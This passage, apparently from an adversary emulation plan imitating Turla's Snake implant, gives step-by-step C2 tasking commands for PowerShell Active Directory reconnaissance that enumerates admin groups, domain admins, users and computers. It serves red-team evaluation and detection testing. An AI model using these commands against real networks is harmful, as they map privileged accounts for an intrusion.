 ```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-Module -ListAvailable -Name ActiveDirectory"}'
```

:heavy_exclamation_mark: Verify that you see output. If the implant returns empty output, please contact your lead.

* Wait 1 minute before tasking Snake to collect a list of Active Directory groups containing the word "management",
as members of these groups will likely have elevated permissions on the network.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroup -Filter * | Where-Object Name -Match \"management\" | Select Name"}'
```

:heavy_exclamation_mark: Verify that `Server Management` is included in the results.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Server Management` domain group. This will instruct Turla on users to target next.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Server Management\" | Select Name,SamAccountName"}'
```

:heavy_exclamation_mark: Verify that `ZilvinasAdmin` shows up in the list of accounts.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Domain Admins` domain group.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Domain Admins\" | Select Name,SamAccountName"}'
```

:heavy_exclamation_mark: Verify that `ZilvinasAdmin` shows up in the list of accounts.

* Wait 1 minute before tasking Snake to discover domain users. Ensure
`Zilvinas` and `ZilvinasAdmin` appear in the output.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADUser -Filter {LastLogonDate -ne 0} -Properties * | Select Name,SamAccountName"}'
```

* Finally, wait 1 minute before tasking Snake to obtain a list of domain computers and some of their information (IP addresses, DNS names, and description).

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADComputer -Filter * -Properties * | Select Name,DnsName,IPv4Address,Description"}'
```
